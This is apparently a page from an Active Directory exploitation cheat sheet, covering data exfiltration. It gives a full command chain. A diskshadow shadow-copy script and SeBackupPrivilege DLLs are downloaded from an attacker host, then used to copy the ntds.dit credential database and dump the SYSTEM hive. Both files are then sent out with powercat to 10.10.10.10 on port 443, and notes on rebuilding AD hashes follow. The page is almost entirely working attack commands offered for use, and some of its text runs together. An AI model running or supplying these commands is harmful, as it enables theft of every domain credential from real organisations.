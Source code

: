 # Create script.txt file that will contain the shadow copy process script#Script ->{set context persistent nowriters set metadata c:\windows\system32\spool\drivers\color\example.cab set verbose on begin backup add volume c: alias mydrive create expose %mydrive% w: end backup #}# TRANSFERT TO TARGET SYSTEMInvoke-WebRequest  -Uri "http://10.10.10.10/script.txt"  -OutFile "C:\\windows\\system32\\spool\\drivers\\color\\script.txt"# EXEC DISKSHADOWcd C:\windows\system32\spool\drivers\colordiskshadow.exe  -s script.txt# CHECK THE CABls-a----  6/7/2020  9:31 PM 743 example.cab# IMPORTING DLL SeBackupPrivilegeCmdLets & SeBackupPrivilegeUtilsInvoke-WebRequest  -Uri "http://10.10.10.10/SeBackupPrivilegeCmdLets.dll"  -OutFile "C:\\windows\\system32\\spool\\drivers\\color\\SeBackupPrivilegeCmdLets.dll"Invoke-WebRequest  -Uri "http://10.10.10.10/SeBackupPrivilegeUtils.dll"  -OutFile "C:\\windows\\system32\\spool\\drivers\\color\\SeBackupPrivilegeUtils.dll"Import-Module .\SeBackupPrivilegeCmdLets.dllImport-Module .\SeBackupPrivilegeUtils.dll# CHECK MODULEget-help SeBackupPrivilege

Name Category Module Synopsis----  --------  ------  --------Get-SeBackupPrivilege Cmdlet SeBackupPrivilegeCmdLets ...Set-SeBackupPrivilege Cmdlet SeBackupPrivilegeCmdLets ...Copy-FileSeBackupPrivilege Cmdlet SeBackupPrivilegeCmdLets ...#Use the functionality of the dlls to copy the ntds.dit database file from the shadow copy to a location of our choiceCopy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\Windows\temp\ntds.dit -Overwrite# Dump ACTUAL SYSTEM hivereg.exe save HKLM\SYSTEM c:\temp\system.hive # FILE TRANSFERTpowercat -c 10.10.10.10  -p 443  -i c:\Windows\temp\system.hive

powercat -c 10.10.10.10  -p 443  -i c:\Windows\temp\ntds.dit

* * *

### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='304'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1009' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/N%20-%20Data%20Exfiltration/README.md#rebuild-ad-hashes)Rebuild AD Hashes

- -ntds: location and name of the ntds.dit file
- -system: location and name of the SYSTEM hive
- -hashes lmnhash:nthash: NTLM hash
- LOCAL: parse files on the local system
- -outputfile: location and name of the output file. Extensions are automatically added based on content extracted
